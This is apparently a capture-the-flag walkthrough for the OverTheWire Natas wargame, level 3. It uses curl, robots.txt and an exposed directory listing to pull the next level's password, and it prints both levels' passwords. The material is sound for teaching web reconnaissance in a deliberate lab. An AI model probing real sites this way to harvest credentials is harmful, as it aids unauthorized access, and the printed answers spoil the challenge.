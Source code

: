 # Natas Level 2 → Level 3 

## 🧠 Goal

Find password to the next level
Username: natas3
URL:      http://natas3.natas.labs.overthewire.org
---

## 🔐 Credentials

- **Username:** `natas3`  
- **Host:** `http://natas3.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH` 

---

## 🖥️ Commands Used

```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas3", "pass": "3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" };</script></head>
<body>
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>

┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/

┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/s3cr3t/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /s3cr3t</title>
 </head>
 <body>
<h1>Index of /s3cr3t</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/text.gif" alt="[TXT]"></td><td><a href="users.txt">users.txt</a></td><td align="right">2025-04-10 14:18  </td><td align="right"> 40 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.58 (Ubuntu) Server at natas3.natas.labs.overthewire.org Port 80</address>
</body></html>
```

!["level 03"](./images/level_03.png)


```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

```
___

## 💡 Tips
```bash
curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH natas3.natas.labs.overthewire.org/robots.txt
```
Today’s internet is indexed by search-engine crawlers, such that Google and Co know what content exists on websites to improve search engine results. The robots.txt file exists on servers to tell these crawlers and other web bots, which part of the website can be visited. It allows defining a user-agent aka for what specific bot the rules should be, and which page of the website the user-agent is not allowed to visit. (Example:)[https://developers.google.com/search/docs/crawling-indexing/robots/create-robots-txt]
___

## 📤 Output
```bash
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```
